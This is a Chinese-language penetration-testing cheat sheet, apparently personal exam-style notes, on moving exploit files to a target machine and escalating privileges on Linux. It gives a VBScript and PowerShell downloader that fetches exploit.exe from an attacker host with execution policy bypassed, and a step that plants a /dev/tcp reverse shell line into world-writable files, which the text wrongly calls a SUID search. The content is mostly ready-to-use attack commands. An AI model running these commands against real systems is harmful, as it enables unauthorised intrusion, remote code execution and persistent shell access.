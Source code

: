 攻击机起 http 服务
```bash
cp exploit.exe /var/www/
service apache2 start
```

在目标机执行 vb 命令,会生成 wget.vbs
```bash
dir wget.vbs
cscript wget.vbs http://<kali-ip>/exploit.exe (要下载的文件)exploit.exe(保存成的文件名)
```

---

### powershell

同样,攻击机起 http 服务

```
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<kali-ip>/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行 powershell 命令,会生成 wget.ps1
目标机执行:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

---

# 权限提升
## linux

网页:
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- https://www.rebootuser.com/?p=1623

`/etc/issue` 和 `/etc/redhat-release` 都是系统安装时默认的发行版本信息,通常安装好系统后文件内容不会发生变化

`lsb_release -a` FSG 组织开发的 LSB 标准的一个命令,用来查看 linux 兼容性的发行版信息(手动升级系统内核,会使lsb_release -a和/etc/issue显示的发行版本号不同)

`/proc/version` 和 `uname -a` 显示的内容相同,显示 linux 内核版本号

去 https://www.exploit-db.com/ 找对应的溢出exp,下载到目标机
```bash
gcc exploit.c -o exploit    (编译成二进制文件)
```

**找带 suid 的文件**
```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```
筛选出其中所有人有 rwx 权限的文件,添加如下一句话:
```bash
bash -i >& /dev/tcp/<kali-ip>/port 0>&1
```
